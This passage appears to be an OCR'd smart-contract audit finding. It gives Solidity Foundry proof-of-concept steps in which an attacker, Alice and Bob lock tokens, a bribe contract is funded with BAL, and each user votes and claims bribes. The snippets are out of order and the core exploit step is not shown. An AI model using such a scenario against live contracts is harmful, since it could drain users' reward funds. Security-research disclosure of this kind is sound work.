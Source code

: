 ```solidity
        hevm.prank(Bob);
        voter.claimBribes(bribes, tokens, tokenId3); 
        console2.log("Bal balance of Bob: %s", IERC20(bal).balanceOf(Bob)); 
    
        console2.log("Bal balance of Bribe contract: %s", IERC20(bal).balanceOf(bribeAddress)); 
        
    }
```

Step 1:  
3 users: Alice, Bob and the attacker create locks with 1e18 BPT token 

```solidity
        uint256 tokenId1 = createVeAlcx(attacker, TOKEN_1, MAXTIME, false);
        uint256 tokenId2 = createVeAlcx(Alice, TOKEN_1, MAXTIME, false);
        tokenId3 = createVeAlcx(Bob, TOKEN_1, MAXTIME, false);
        
```

Step 2: The bribe contract receive some reward, suppose 100_000e18 BAL 

```solidity
    createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);
```

```solidity 
    function createThirdPartyBribe(address _bribeAddress, address _token, uint256 _amount) public {
        deal(_token, address(this), _amount);

        IERC20(_token).approve(_bribeAddress, _amount);

        if (!IVoter(voter).isWhitelisted(_token)) {
            hevm.prank(address(timelockExecutor));
            IVoter(voter).whitelist(_token);
        }

        IBribe(_bribeAddress).notifyRewardAmount(_token, _amount);
    }
    
```

Step 3:  Each user will vote 

```solidity
        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        hevm.prank(attacker);
        voter.vote(tokenId1, pools, weights, 0);
        
        hevm.prank(Alice);
        voter.vote(tokenId2, pools, weights, 0);

        hevm.prank(Bob);
        voter.vote(tokenId3, pools, weights, 0);

```
